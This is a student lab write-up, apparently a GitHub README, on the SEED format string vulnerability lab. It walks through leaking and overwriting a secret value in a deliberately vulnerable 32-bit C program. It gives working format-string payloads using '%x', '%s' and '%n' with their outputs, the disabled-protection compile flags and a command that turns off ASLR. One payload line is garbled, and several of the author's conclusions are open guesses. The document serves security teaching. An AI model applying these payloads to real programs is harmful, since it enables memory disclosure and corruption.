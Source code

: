 Format String Vulnerability Lab
===============================

http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Format_String/

# Lab1

Files:
- Makefile
- vul_prog.c

## Summary
`vul_prog.c` give a malloced array `secret` and asked you to get the value of `scret[1]` and overwrite it.
I can do that when this program compiled as 32 bits but there still some unsolved problems in 64 bit.

`vul_prog.c` give us the address of `secret` every times, it means that ASLR is no longer vaild.

below is the varibles memory layout of vul_prog in my machine:

    gcc -m32 -z execstack -fno-stack-protector vul_prog.c -o vul_prog.out 
    sizeof(int) 4
    userinput 0xffc6131c
    secret 0xffc61314
    int_input 0xffc61310
    a 0xffc6130c
    b 0xffc61308
    c 0xffc61304
    d 0xffc6133e
    The variable secret's address is 0xffc61318 (on stack)
    The variable secret's value is 0x 804a410 (on heap)
    secret[0]'s address is 0x 804a410 (on heap)
    secret[1]'s address is 0x 804a414 (on heap)
    Please enter a decimal integer
    Please enter a string
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x55

> Doubt: I don't know why there are 8 bytes between `user_input` and `int_input`

## Access varible 

    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */
    
    /* Vulnerable place */
    printf(user_input);
    printf("\n");

As you see, `printf` print a user-input string without any parameter (IT IS DANGREOUS),
we can use it to access varible on stack.

first, find the location of `int_input`:

    $ make
    $ python -c "print('57005'); print('%x-'*20)" | ./vul_prog.out | grep dead
    ...
    ffa49ddc-ffa49dc8-ffa49dc4-ffa49dfe-1-c2-f75b21c3-ffa49dfe-dead-804b010-252d7825- ...
                                                               ^^^^ ^^^^^^^
    ...

> 57005 = 0xdead

so we can access `int_input` by input string `'%x'*9`, and `secret` can be accessd by `'%x'*10`.

How to get the value of `scret[0]`?

    $ python -c "print('57005'); print('%x-'*9 + '%s')" | ./vul_prog.out
    ...
    ffd6f1fc-ffd6f1e8-ffd6f1e4-ffd6f21e-1-c2-f76061c3-ffd6f21e-dead-D
                                                                    ^
    ...

`hex(ord('D'))` is `0x44`, the vaule of `secret[0]`.

How to get the value of `scret[1]`?

We can control the value of `int_input`, and we know the address of `secret[1]` (from the output of program),
more convience, we can close ASLR so that we don't need to input the variable address everytime.

    $ su -c 'echo 1 > /proc/sys/kernel/randomize_va_space'

Address of `secret[1]` is 0x804a414, converts to decimal is 134521876:

    $ python -c "print('134521876'); print('%x-'*8 + '%s')" | ./vul_prog.out
    ...
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
                                                               ^
    ...

`hex(ord('U'))` is `0x55`, the vaule of `secret[1]`.

## Overwrite varible 

> %n: Nothing printed. The corresponding argument must be a pointer to a signed int. The number of characters written so far is stored in the pointed location.

Use `%n` write a vaule to `scret[1]`:

    $ python -c "print('134521876'); print('%x-'*8 + '%n')" | ./vul_prog.out
    ...
    ff9efafc-ff9efae8-ff9efae4-ff9efb1e-1-c2-f76671c3-ff9efb1e-
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x3b
                                  ^^^^

`secret[1]` has changed to 0x3b

Write a arbitrary (?) value to `scret[1]` (by controlling the length of output string):

    $ python -c "print('134521876'); print('%x-'*8 + '0'*+ '%n')" | ./vul_prog.out
    ...
    ff868acc-ff868ab8-ff868ab4-ff868aee-1-c2-f762c1c3-ff868aee-00000000000 ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x233
                                  ^^^^^
    [1]    3824 done                              python -c "print('134521876'); print('%x-'*8 + '0'*504 + '%n')" | 
           3825 segmentation fault (core dumped)  ./vul_prog.out

It seem that the value can no smaller then 0x3b, and too large string will causes segmentation fault. (is it right?)

## 64 bit?

// TODO
